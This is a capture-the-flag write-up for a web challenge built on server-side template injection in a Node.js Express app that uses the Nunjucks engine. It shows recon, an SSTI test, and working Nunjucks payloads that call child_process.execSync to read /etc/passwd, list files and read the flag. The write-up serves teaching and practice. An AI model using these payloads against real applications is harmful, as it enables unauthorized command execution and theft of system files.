 # ## SunSet introspecTIon

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Watching the sunset with nunjucks to make sure your server side is always protected.
```

## Solve
In this challenge, no files were provided, only an URL to access. Accessing it:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/home_page.png?raw=true)

a simple HTML page is served with an input box. Interacting with it, we are sent to another page

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/display_username.png?raw=true)

that is just displaying the content that comes in the *payload* query parameter.  Looking at the response headers:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/app_headers.png?raw=true)

there is an *X-Powered-By: Express* header. If we search for that in Google, we will find out that is related to NodeJS [Express](https://expressjs.com/) framework.
To solve the challenge, the title is the clue "SunSet introspecTIon". If we remove the lower case letters, we will get *SSTI* that translates to [Server Side Template Injection](https://portswigger.net/research/server-side-template-injection). The other clue was the [nunjucks](https://mozilla.github.io/nunjucks/) in the description, which is a template engine for Js.

To be sure that the challenge is indeed related to an SSTI vulnerability, we can test it out with `{{7*7}}` that after render should result in 49 being served.

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_test.png?raw=true)

and it is indeed that. Now we need to find a way to execute commands there, and we can use a great resource for that, Hacktricks. <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks>

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')")()}}
```

will result in 

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_passwd.png?raw=true)

Now, we just need to find the flag

```js
// List the current directory
{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls -la')")()}}
// Get the flag contents
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag')")()}}
```

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_flag.png?raw=true)

